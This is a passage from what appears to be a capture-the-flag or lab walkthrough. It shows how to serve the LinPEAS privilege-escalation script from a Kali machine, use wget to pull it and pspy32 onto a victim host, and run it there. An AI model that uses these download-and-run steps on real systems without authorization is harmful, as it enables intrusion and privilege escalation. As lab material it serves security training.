


5.2 linPEAS
Installing LinPEAS.
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.
1. On your Kali Machine create a “linpeas.sh” file with content of https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh.
2. On your Kali Machine create a python server.
$ python3 -m http.server 80
Output:

3. From your victim's machine SSH connection get the files you need.
brad@crazymed:/$ wget http://192.168.12.60/linpeas.sh
brad@crazymed:/$ wget http://192.168.12.60/pspy32
4. Change the “linpeas.sh” file permissions.
brad@crazymed:/$ chmod +x linpeas.sh
5. Run “linepeas.sh” file with output file.
brad@crazymed:/$./linpeas.sh | tee output
Output:
